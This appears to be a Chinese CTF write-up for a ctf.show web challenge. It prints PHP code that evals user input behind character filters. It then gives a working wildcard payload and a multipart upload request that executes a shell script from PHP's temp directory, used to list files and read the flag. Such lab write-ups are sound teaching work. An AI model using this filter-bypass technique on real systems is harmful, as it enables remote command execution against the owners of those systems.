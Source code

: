 ```yaml
---
title: "Web红包题第二弹  @WEB"
date: 2023-079-10
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


 查看源代码，根据源码提示，请求?cmd=aa

![](/ctf.show/40/1.webp)

```php
<?php
        if(isset($_GET['cmd'])){
            $cmd=$_GET['cmd'];
            highlight_file(__FILE__);
            if(preg_match("/[A-Za-oq-z0-9$]+/",$cmd)){
            
                die("cerror");
            }
            if(preg_match("/\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\{|\}|\[|\]|\'|\"|\:|\,/",$cmd)){
                die("serror");
            }
            eval($cmd);
        
        }
    
?>
#过滤了大多数字符，可以使用的字符还有：p ` ? / + < > =
```

可用的字符构造语句

```
?cmd=?><?=`.+/??p/p?p??????`,由eval（$cmd）来运行临时文件
#备注：问号代表任意字符，通配符/??p/p?p??????匹配/tmp/phpxxxxxx
```

burp修改为POST请求，并修改三处请求参数

```
1:POST /?cmd=?><?=`.+/??p/p?p??????`; HTTP/1.1
2:Content-Type:multipart/form-data;boundary=---------------------------1024230095629231352
3:-----------------------------10242300956292313528205888
Content-Disposition: form-data; name="fileUpload"; filename="1.txt" 
Content-Type: text/plain

#! /bin/sh

ls /
-----------------------------10242300956292313528205
```

![](/ctf.show/40/2.webp)

通过回显能够看到一个名为flag.txt的文件，修改命令为：cat /flag.txt 查看flag

![](/ctf.show/40/3.webp)